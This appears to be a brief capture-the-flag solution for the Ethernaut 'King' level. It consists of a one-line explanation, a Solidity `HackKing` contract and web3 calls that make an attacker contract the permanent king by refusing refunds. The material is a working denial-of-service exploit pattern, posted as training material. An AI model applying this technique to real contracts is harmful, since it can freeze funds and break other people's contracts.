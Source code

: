 make a contract be the king so that when ethernaut tries to reclaim kingship `king.transfer(msg.value);` will fail since the contract won't accept eth back.

```
pragma solidity ^0.8.0;

contract HackKing {
    function makeKing(address payable instance) public payable {
        instance.call{value: msg.value}("");
    }
}
```

```
const abi = ...;
const hackKingContract = new web3.eth.Contract(abi, '<contract address>');
hackKingContract.methods.makeKing(instance).send({ from: player, value: toWei('1')});
```
